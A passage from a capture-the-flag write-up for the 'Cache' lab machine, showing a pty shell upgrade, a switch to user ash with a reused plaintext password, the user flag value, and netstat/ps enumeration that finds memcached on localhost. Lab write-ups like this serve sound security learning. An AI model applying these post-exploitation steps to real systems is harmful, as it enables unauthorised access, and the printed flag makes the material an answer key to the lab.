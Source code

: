 ## Lateral move (www-data->ash)

We already gathered ash's password previously, let's switch to ash.

~~~
www-data@cache:/var/www/hms.htb/public_html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<tml$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cache:/var/www/hms.htb/public_html$ su ash
su ash
Password: H@v3_fun

ash@cache:/var/www/hms.htb/public_html$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash)
~~~

## User flag

We can now get the user flag

~~~
ash@cache:/var/www/hms.htb/public_html$ cat /home/ash/user.txt
cat /home/ash/user.txt
d9f006fb7222cc7246eb02b4f3c591a2
~~~

User flag: `d9f006fb7222cc7246eb02b4f3c591a2`


# Root flag

## Memcached

Enumerating the network connections reveals that `memcached` is running on localhost over port `11211/tcp`.

~~~
ash@cache:~$ netstat -tan
netstat -tan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 10.10.10.188:47622      10.10.14.142:4444       ESTABLISHED
tcp        0      1 10.10.10.188:41896      8.8.8.8:53              SYN_SENT   
tcp        0      0 127.0.0.1:11211         127.0.0.1:54694         TIME_WAIT  
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 10.10.10.188:80         10.10.14.142:39190      TIME_WAIT  
tcp6       0      0 10.10.10.188:80         10.10.14.142:39194      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39182      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39196      ESTABLISHED
tcp6       0      0 10.10.10.188:80         10.10.14.142:39188      TIME_WAIT  
ash@cache:~$ ps aux | grep 11211
ps aux | grep 11211
memcache   908  0.0  0.0 425792  3976 ?        Ssl  04:55   0:01 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash      20348  0.0  0.0  13136  1056 pts/0    S+   07:17   0:00 grep --color=auto 11211
~~~
